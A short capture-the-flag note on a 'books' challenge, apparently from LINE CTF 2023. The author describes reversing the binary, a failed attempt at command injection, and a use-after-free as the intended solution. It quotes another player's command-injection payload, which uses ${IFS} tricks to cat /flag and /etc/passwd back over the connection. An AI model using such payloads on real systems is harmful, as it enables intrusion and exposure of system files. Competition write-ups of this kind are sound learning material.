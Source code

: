 # LINE2023 books

I spent most of the competition time reversing the binary and trying to get command injection. it turns out the intended solution was to use UAF on one the objects.

from another player:
```
AAAA '*1+b';a'*10000+b');(echo${IFS}"SFRUUC8xLjEgMjAwIE9LDQpDb250ZW50LUxlbmd0aDogMTAwDQoNCg=="|base64${IFS}-d${IFS};cat${IFS}/flag;cat${IFS}/etc/passwd)>&0;#
```

this was a good experience, and I learned a lot about command injection, even though I was ultimately unable to exploit it.
